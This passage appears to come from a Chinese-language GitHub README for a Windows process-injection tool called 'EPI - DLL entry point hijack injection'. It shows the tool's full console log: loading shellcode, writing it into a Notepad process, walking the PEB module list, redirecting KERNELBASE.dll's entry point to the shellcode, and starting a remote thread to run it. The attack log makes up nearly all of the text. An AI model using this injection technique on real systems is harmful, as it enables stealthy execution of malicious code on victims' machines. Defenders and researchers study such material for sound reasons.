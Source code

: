### 完整输出

```
[*] 正在加载 shellcode：../23-threadless-inject/payload.bin
[+] Shellcode 已加载（106 字节）

======================================
  EPI - DLL 入口点劫持注入
======================================

[1] 打开目标进程
    [+] 成功打开进程 PID=58740

[2] 分配内存并写入 Shellcode
    [+] 已分配内存：0x000002D3E7FD0000（大小：106 字节）
    [+] Shellcode 已写入（106 字节）

[3] 劫持 DLL 入口点
    [*] 目标 DLL：kernelbase.dll

[+] 目标进程 PEB 地址：0x000000DDC6888000
[+] PEB_LDR_DATA 地址：0x00007FFB40534940
[+] 已加载模块链表地址：0x000002D3E3109BA0

[*] 遍历已加载模块链表...
    [*] DLL: Notepad.exe                    (Base: 0x00007FF7EF670000, EntryPoint: 0x00007FF7EF79B710)
    [*] DLL: ntdll.dll                      (Base: 0x00007FFB40360000, EntryPoint: 0x0000000000000000)
    [*] DLL: KERNEL32.DLL                   (Base: 0x00007FFB3F240000, EntryPoint: 0x00007FFB3F26E120)
    [*] DLL: KERNELBASE.dll                 (Base: 0x00007FFB3DAD0000, EntryPoint: 0x00007FFB3DBB3FF0)

[+] 找到目标 DLL：KERNELBASE.dll
    [*] DllBase：0x00007FFB3DAD0000
    [*] 原始 EntryPoint：0x00007FFB3DBB3FF0
    [*] 新 EntryPoint（Shellcode）：0x000002D3E7FD0000
[+] EntryPoint 已成功劫持！

[*] 强制触发 shellcode 执行...
[+] ExitThread 地址：0x00007FFB40368DE0
[+] 已创建远程线程（句柄：0x00000000000000C8）
[*] 线程将调用 ExitThread 并触发 DLL 入口点

[+] EPI 注入成功！
[!] 注意：请勿关闭目标进程，否则 shellcode 将无法执行
```

### 验证结果
